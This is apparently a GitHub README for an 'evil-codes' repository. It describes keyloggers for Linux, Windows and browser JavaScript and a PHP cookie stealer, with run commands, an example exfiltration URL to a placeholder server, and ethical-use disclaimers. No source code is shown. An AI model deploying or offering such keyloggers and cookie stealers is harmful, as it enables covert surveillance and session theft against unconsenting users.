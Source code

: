 <h1 align='center'>Disclaimer</h1>
These tools are intended for educational and ethical penetration testing only. Unauthorized use of these tools to monitor systems without permission is illegal and unethical.
<li><b>Download:</b>
<pre><code>git clone https://github.com/Kode-n-Rolla/evil-codes.git
cd evil-codes</code></pre>
<h2 align='center'>Keyloggers</h2>
<p>The keyloggers are designed to capture keystrokes and log activity on different operating systems. Please note that these are the first versions and will be refined and enhanced over time. These keyloggers designed for educational and ethical purposes.
<ol>
  <h3><li>Linux Keylogger</h3>
    <ul>
      <li><b>Description:</b> This keylogger is specifically designed for Linux environments. It listens to keyboard events through the /dev/input devices and logs keystrokes to a file. The keylogger can also detect active processes using xdotool if available
      <li><b>Features:</b>
        <ul>
          <li>Captures and logs keystrokes directly from input devices
          <li>Supports the mapping of key codes to human-readable characters
          <li>Writes logs to a file for easy review and analysis
          <li>Requires root privileges for access to input devices
        </ul>
      <li><b>Run</b> the keylogger with root permissions:
            <pre><code>sudo python linux_keylogger.py</code></pre>
    </ul>
    <h3><li>Windows Keylogger</h3>
      <ul>
        <li><b>Description:</b> The Windows version of the keylogger leverages the Windows API and <code>psutil</code> library to capture active window information, process details, and keystrokes. It logs all activities into a file for analysis
        <li><b>Features:</b>
          <ul>
            <li>Captures and logs keystrokes using the Windows API
            <li>Retrieves active window and process information for detailed logging
            <li>Supports keyboard layout detection for accurate log representation
            <li>Outputs logs to a file with detailed information about the active application and layout
          </ul>
              <li><b>Run</b> the keylogger:
                <pre><code>python windows_keylogger.py</code></pre>
      </ul>
      <h3><li>Java Script Keylogger</h3>
            <ul>
        <li><b>Description:</b> It logs keypress events, including standard characters, special function keys (e.g., Esc, Enter, Backspace), and modifier keys (Shift, Ctrl, Alt). The keylogger also captures key combinations to provide more comprehensive data. The                   project showcases JavaScript's event handling capabilities, which could be useful in understanding how keylogging works
        <li><b>Features:</b>
          <ul>
            <li>Logs Regular Keys: Captures standard keyboard characters, including letters, numbers, and symbols
            <li>Detects Modifier Keys: Recognizes Shift, Ctrl, Alt, and Meta (Windows/Command) keys and includes them in the log
            <li>Records Special Function Keys: Handles function keys (Esc, Backspace, Delete, Enter, Caps Lock, Tab, and arrow keys)
            <li>Key Combination Logging: Logs combinations like Ctrl + C, Shift + A, or Alt + Enter
            <li>Optional Server Communication: Allows sending logged key data to a server endpoint (e.g., for remote analysis)
          </ul>
              <li><b>How to use:</b>
                <ul><li>Place the JavaScript file containing the keylogger code into an HTML file, or link it via a &lt;script> tag</ul>
</ol>
<h2 align='center'>Cookie Stealer (.php)</h2>
              <li><b>Description:</b> This project is a simple PHP script that captures and logs cookies sent via URL parameters. The script is intended for educational and ethical purposes, such as security research and demonstration of cookie handling in web                           applications. It logs any <code>cookie</code> parameter passed through a GET request to a local file named <code>stolen_cookies.txt</code> in the same directory. Each log entry is timestamped for easy reference.
              <li><b>Warning:</b> This script should only be used in controlled environments and with permission. Unauthorized use of this tool to capture cookies is illegal and unethical.
              <li><b>How It Works:</b>
                <ol>
                  <li>The script checks for a URL parameter named <code>cookie</code>
                  <li>If <code>cookie</code> is present, its value is saved to a file <code>stolen_cookies.txt</code> along with the current timestamp
                  <li>If the parameter is missing, the script simply returns a message saying "No cookie"
                </ol>
              <li><b>Example:</b>
                To log a cookie with a value of example_cookie_value, make a GET request like this:
                <pre><code>http://your-server.com/cookie-stealer.php?cookie=example_cookie_value</code></pre>
<h2 align='center'>Future Improvements:</h2>
<ul>
  <li><b>Security Enhancements:</b> Aim to make the keyloggers more robust and add encryption to protect the captured logs
  <li><b>Additional Platforms:</b> Support for macOS and possible improvements to cross-platform functionality
  <li><b>Process Tracking:</b> Improvements in tracking processes and window changes in Linux, similar to the Windows version
  <li><b>Customization:</b> Providing more customizable settings, such as changing the log file location, log formatting, and more
</ul>

